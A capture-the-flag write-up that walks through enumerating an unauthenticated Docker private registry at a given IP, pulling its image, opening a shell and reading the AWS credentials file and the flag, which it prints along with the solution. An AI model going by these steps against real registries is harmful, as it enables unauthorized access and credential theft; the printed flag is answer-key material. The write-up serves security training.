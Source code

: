 Level 13: India
===============

Description
-----------

```
We use docker private registry to host our secure AWS app.

52.53.166.207
```
**Points**: 500

WriteUp
-------

So it seems that the company has started their own *Docker Hub*. A Google search for `docker private registry` throws interesting results such as [this](https://docs.docker.com/registry/deploying/). What is interesting from it is the fact that they are typically up in port 5000 and deployed with:

```
[…]
$ docker run -d -p 5000:5000 --restart=always --name registry registry:2
[…]
```

Typically, if we want to search in Docker Hub we can use `docker search whatever` but it is not possible to launch it directly to a private hub. Coming back to Google, we know want to try recover the available Docker images in the private hub and we find [this](https://forums.docker.com/t/docker-private-registry-how-to-list-all-images/21136/3) in the Docker Forums which claims that it is easy to call listing `https://<host>:<port>/v2/_catalog`. 

So, it's time to try it:
```
 curl http://52.53.166.207:5000/v2/_catalog
{"repositories":["dev-aws-test-code"]}
```
Great, it seems that we have found an image that matches the description of the challenge. Knowing that, the first idea is to try to directly recover the docekr image using `docker pull` but it says that it is not possible to recover the latest image:

```
$ docker pull 52.53.166.207:5000/dev-aws-test-code
Using default tag: latest
Pulling repository 52.53.166.207:5000/dev-aws-test-code
Error: image dev-aws-test-code:latest not found
```

So, this is an error that simply says that there is not image tagged as `:latest`, which is the default tag assumed when not provided. As we do not have Docker Hub web UI to ask for it, we come back to Google to ask for a way of listing the tags of an image and we find [this](https://docs.docker.com/registry/spec/api/#listing-image-tags) in the Docker documentation:

![](res/level_13-list_images.png)

```
$ curl http://52.53.166.207:5000/v2/dev-aws-test-code/tags/list
{"name":"dev-aws-test-code","tags":["notreadyet"]}
```


But trying will raise errors because it will try to recover the images from a secure regitry using SSL. We have to take into account that we have to add the repository (`52.53.166.207:5000`) as an insecure repository to a specific daemon.json file that we have to create (full documentation [here](https://docs.docker.com/registry/insecure/).

The details of the daemon.json are simple:
```
{ "insecure-registries":["52.53.166.207:5000"] }
```
In my case, I have had to restart Docker before pulling the image from the new registry:

```
docker pull 52.53.166.207:5000/dev-aws-test-code
```

So that's why it crashed: there is no `latest` tag but there is a `notreadyet` (note that it's with just one 'y'). Time to pull it:

```
docker pull 52.53.166.207:5000/dev-aws-test-code:notreadyet
```

Once pulled, it's time to run the image with an interactive shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet
```
As it opens by default `htop`, we opt for opening it with an itneractive Bash shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/bash
docker: Error response from daemon: oci runtime error: container_linux.go:247: starting container process caused "exec: \"/bin/bash\": stat /bin/bash: no such file or directory".
```

The crash is suspicious, but we can try with `/bin/sh` nd it just works

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/sh
```


And inside the image, it's pretty straightforward. The lines that follow are copied directly from the terminal, but I think that self-explanatory:

```
/ # ls -la
total 6
total 68
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .aws
-rwxr-xr-x    1 root     root             0 Aug 12 14:03 .dockerenv
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 app
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 bin
drwxr-xr-x    5 root     root           360 Aug 12 14:03 dev
drwxr-xr-x   17 root     root          4096 Aug 12 14:03 etc
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 home
drwxr-xr-x    6 root     root          4096 Jul  5 14:47 lib
drwxr-xr-x    5 root     root          4096 Jul  5 14:47 media
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 mnt
dr-xr-xr-x  298 root     root             0 Aug 12 14:03 proc
drwx------    2 root     root          4096 Aug 12 14:03 root
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 run
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 sbin
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 srv
dr-xr-xr-x   13 root     root             0 Aug 12 14:03 sys
drwxrwxrwt    2 root     root          4096 Jul  5 14:47 tmp
drwxr-xr-x   10 root     root          4096 Jul  5 14:47 usr
drwxr-xr-x   12 root     root          4096 Jul  5 14:47 var

/var # cd
~ # ls -la
total 12
drwx------    2 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-------    1 root     root           362 Aug 12 14:06 .ash_history
~ # cd /app/
/app # ls -la
total 12
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            43 Aug 11 22:56 README.md
/app # cat README.md 
# Welcome

Need to fix the AWS credentials
/ # cd /.aws/
/.aws # ls -la
total 20
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            39 Aug 11 22:53 config
-rw-r--r--    1 root     root           116 Aug 11 22:54 credentials
-rw-r--r--    1 root     root           136 Aug 11 22:55 flag.txt
/.aws # cat credentials 
[default]
aws_access_key_id=AKIAIOSFODNN7EXAMPLE
aws_secret_access_key=wJalrXUtnFEMI/K7MDENG/bPxRfioEH62Bzo1TFGabmw
/.aws # cat config 
[default]
region=us-west-2
output=json
/.aws # cat flag.txt 
flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}
```
Done! :D

Solution
--------

```flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}```
